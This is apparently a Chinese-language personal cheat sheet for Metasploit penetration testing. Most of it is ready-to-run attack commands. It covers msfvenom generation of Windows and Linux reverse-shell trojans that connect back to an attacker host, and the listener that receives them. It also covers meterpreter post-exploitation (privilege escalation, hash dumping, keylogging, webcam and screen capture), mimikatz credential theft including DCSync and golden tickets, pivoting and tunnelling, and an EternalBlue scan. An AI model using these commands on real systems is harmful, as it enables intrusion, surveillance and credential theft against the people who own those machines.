



# **基本步骤**

```bash
search xxx		# 搜索某个模块
use xxx			# 使用某个模块
show options	# 查看配置选项
set payload		# 配置攻击载荷
run/exploit		# 执行渗透攻击
```


# 木马生成

Winodws

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=Kali的IP LPORT=Kali监听端口 -f exe > msf.exe

参数选项：
-p			指定的payload
-e 			编码器，x86/shikata_ga_nai
-i			迭代器，对有效载荷的编码次数
-f			输出文件的格式,exe、dll、raw
```

Linux

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=Kali的IP LPORT=Kali监听端口 -f elf > msf.elf
chmod +x ./msf.elf # 为木马添加执行权限
```

MSF监听

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp # 设置的payload要一致，不然连不上
set LHOST Kali的IP
set LPORT Kali监听端口
run
```


# Meterpreter

## 常用命令

```bash
pwd、ls、cd
getuid		# 查看当前权限
getsystem	# 获得系统管理员权限（要本地管理员权限运行）
hashdump	# 抓哈希密码
sysinfo		# 查看系统信息
idletim     # 查看目标系统已运行时间
route		# 查看目标机完整网络设置
shell		# 进入目标机shell，exit退出she
background	# 将meterpreter隐藏在后台

upload ./1.txt c:\\1.txt		# 上传文件
download c:\1.txt ./			# 下载文件
search -f *.txt -d c://			# 搜索文件

keyscan_start	# 启动键盘记录
keyscan_stop	# 停止键盘记录
keyscan_dump	# 转储键盘记录的内容
screenshot		# 抓取截屏
webcam_list		# 摄像头列表
webcam_snap		# 摄像头拍照
webcam_stream	# 抓取视频
```


## 进程迁移

```bash
ps | grep "explore"
migrate pid # 将shell迁移到explorer.exe进程中
```


## **会话管理**

```bash
background		# 将当前会话放置后台
sessions		# 会话管理
sessions -l		# 列出所有会话
sessions -K		# 终止所有会话
sessions -i id	# 进入某个会话
```


## 会话派生到CS

CS创建监听器



MSF

```bash
background
use exploit/windows/local/payload_inject
set lhost 192.168.32.102       
set lport 9999               
set DisablePayloadHandler True
set PrependMigrate True
sessions -l   
set session 1 
run     
```

没成功，弹了个记事本？？？？


## mimikatz

```bash
load kiwi
```



```bash
creds_all：列举所有凭据
creds_kerberos：列举所有kerberos凭据
creds_msv：列举所有msv凭据
creds_ssp：列举所有ssp凭据
creds_tspkg：列举所有tspkg凭据
creds_wdigest：列举所有wdigest凭据
dcsync：通过DCSync检索用户帐户信息
dcsync_ntlm：通过DCSync检索用户帐户NTLM散列、SID和RID
golden_ticket_create：创建黄金票据
kerberos_ticket_list：列举kerberos票据
kerberos_ticket_purge：清除kerberos票据
kerberos_ticket_use：使用kerberos票据
lsa_dump_sam：dump出lsa的SAM
lsa_dump_secrets：dump出lsa的密文
password_change：修改密码
wifi_list：列出当前用户的wifi配置文件
wifi_list_shared：列出共享wifi配置文件/编码
```

##### 调用mimikatz

> 在安装了KB2871997补丁或者系统版本大于windows server 2012时，系统的内存中就不再保存明文的密码，这样利用mimikatz就不能从内存中读出明文密码了。mimikatz的使用需要administrator用户执行，administrators中的其他用户都不行。

[mimikatz命令](https://tttang.com/archive/1616/)

```bash
kiwi_cmd module::xxx
kiwi_cmd sekurlsa::wdigest
kiwi_cmd sekurlsa::logonpasswod
```




## 端口转发

```bash
portfwd add -l 6666 -p 3389 -r 127.0.0.1 #将目标机的3389端口转发到本地6666端口
```


## 隧道代理

```bash
run autoroute -s 192.168.52.0/24 # 为当前sesison添加路由
background
use auxiliary/server/socks_proxy # socks5代理
set SRVHOST 127.0.0.1
run

配置proxychains使用该socks5代理
```


## 永恒之蓝

```bash
auxiliary/scanner/smb/smb_ms17_010 # 扫描模块
search exploit ms17_010 # 查找exp
```


# 更多

[MSF渗透常用操作指南 - 跳跳糖 (tttang.com)](https://tttang.com/archive/1432/)